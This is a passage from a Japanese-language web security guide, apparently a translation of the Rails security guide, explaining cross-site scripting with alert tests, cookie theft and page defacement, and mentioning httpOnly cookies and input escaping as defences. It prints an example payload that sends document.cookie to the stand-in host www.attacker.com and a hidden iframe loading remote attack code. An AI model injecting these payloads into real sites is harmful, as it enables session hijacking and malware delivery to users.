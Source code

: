 #### HTML/JavaScriptインジェクション

XSS攻撃に利用されやすい言語は、言うまでもなくクライアント側で最も普及している言語であるJavaScriptであり、しばしばHTMLと組み合わせて攻撃に使用されます。 _攻撃を避けるにはユーザー入力をエスケープする_ 必要があります。

XSSをチェックする最も簡単なテストをご紹介します。

```html
<script>alert('Hello');</script>
```

このJavaScriptコードを実行すると、警告ボックスが1つ表示されるだけです。次の例では、見かけの動作はまったく同じですが、通常ではありえない場所にコードが置かれています。

```html
<img src=javascript:alert('Hello')>
<table background="javascript:alert('Hello')">
```

##### Cookie窃盗

先ほどの例では何の害も生じないので、今度は攻撃者がユーザーのcookieを盗み出す手法をご紹介します (攻撃者はこれを使用してユーザーのセッションをハイジャックします)。JavaScriptでは、document.cookieプロパティを使用してドキュメントのcookieを読み書きできます。JavaScriptでは同一生成元ポリシーが強制的に適用されます。これは、あるドメインから送り込まれたスクリプトからは、別のドメインのcookieにアクセスできないようにするポリシーです。document.cookieプロパティには、生成元webサーバーのcookieが保存されています。しかし、HTMLドキュメントに直接コードを埋め込むと(XSSによってこれが生じることがあります)、このプロパティを読み書きできてしまいます。このコードを自分のWebアプリケーションの適当な場所に手動で注入すると、そのページに含まれている自身のcookieが表示されるのがわかります。

```
<script>document.write(document.cookie);</script>
```

もちろん、攻撃者にしてみれば標的ユーザーが自分で自分のcookieを表示したところで何の意味もありません。次の例では、http://www.attacker.com/ というURLから画像とcookieを読み込みます。言うまでもありませんが、このURLは実際には存在しませんので、ブラウザには何も表示されません(訳注: 現在は売り物件のWebページがあるようです)。ただし攻撃者はWebサーバーのアクセスログファイルを調べて標的ユーザーのcookieを参照することができます。

```html
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
```

www.attacker.com サイト上のログファイルには以下のように記録されます。

```
GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
```

この攻撃をある程度軽減するためには[httpOnly](http://dev.rubyonrails.org/ticket/8895)フラグをcookieに追加します。これにより、JavaScriptを使用してdocument.cookieを読み出せなくなります。HTTP only cookieはIE v6から使用できます。SP1, Firefox v2.0.0.5 and Opera 9.5. Safariはまだこのフラグを検討中であり、このオプションは無視されます。ただしWebTVやMac版IE 5.5などの古いブラウザでは、ページ上での読み込みに失敗します。なお、[Ajaxを使用するとcookieが表示可能になる](http://ha.ckers.org/blog/20070719/firefox-implements-httponly-and-is-vulnerable-to-xmlhttprequest/)ことにもご注意ください。

##### Webページの汚損

Webページを書き換える (汚損) ことで、偽の情報を表示したり、標的ユーザーを攻撃者の偽サイトに誘い込んでcookieやログイン情報などの重要データを盗み出すなどのさまざまな攻撃が可能になります。最も多い攻撃は、iframeを使用して外部のコードをWebページに含める方法です。

```html
<iframe name="StatPage" src="http://58.xx.xxx.xxx" width=5 height=5 style="display:none"></iframe>
```

このコードによって、外部にある任意のHTMLやJavaScriptが読み込まれ、Webサイトの一部として埋め込まれます。上のiframeは、[Mpack攻撃フレームワーク](http://isc.sans.org/diary.html?storyid=3015)を使用してイタリアにあるWebサイトへの攻撃で実際に用いられたものです。MpackはWebブラウザのセキュリティホールを介して邪悪なソフトウェアをインストールしようとします。そして攻撃の成功率は50%を誇っています。
